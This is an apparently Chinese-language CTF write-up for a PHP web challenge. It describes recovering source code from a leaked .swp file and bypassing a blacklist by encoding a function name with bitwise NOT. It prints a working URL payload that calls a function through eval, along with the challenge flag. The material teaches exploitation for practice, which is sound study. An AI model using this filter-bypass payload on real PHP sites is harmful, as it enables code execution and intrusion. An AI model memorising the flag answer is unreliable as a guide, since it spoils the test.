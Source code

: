 - **题目名称：** simple_php
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** tutu
- **考点：** 

1.  源码泄露swp
2.  特殊字符webshell构造

- **描述：** 不会真有人点99999999下吧

- **flag：** flag{a3b5c6d-563ae31f-b6672e33ed-ff63a5b8}

- **Writeup：** 

  根据提示，访问index.php.swp得到源码，进行审计发现大部分webshell构造方式都被ban，因为eval()可以利用`('getflag')();`的方式来执行函数，所以可以将字符串取反后装成十六进制，添加上%构造 URL 编码的特殊字符串，再通过取反构造webshell：

  ```php
  <?php
  echo bin2hex(~'getflag'); //989a8b99939e98-->%98%9a%8b%99%93%9e%98
  //payload: index.php?code=(~%98%9a%8b%99%93%9e%98)();
  ```
